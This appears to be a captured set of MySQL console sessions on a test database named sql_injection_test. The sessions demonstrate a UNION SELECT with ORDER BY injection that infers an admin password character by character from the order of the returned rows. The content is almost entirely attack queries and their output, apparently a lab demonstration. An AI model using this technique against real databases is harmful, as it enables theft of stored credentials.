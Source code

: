 ```
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('ac') order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | ac       |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('ad') order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | ad       |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.009s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('ae') order by 2
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin!@# |
| 1        | ae       |
+----------+----------+
2 rows in set
Time: 0.009s
```

```
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('admin ') order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | admin    |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('admin!') order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | admin!   |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('admin"') order by 2
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin!@# |
| 1        | admin"   |
+----------+----------+
2 rows in set
Time: 0.008s
```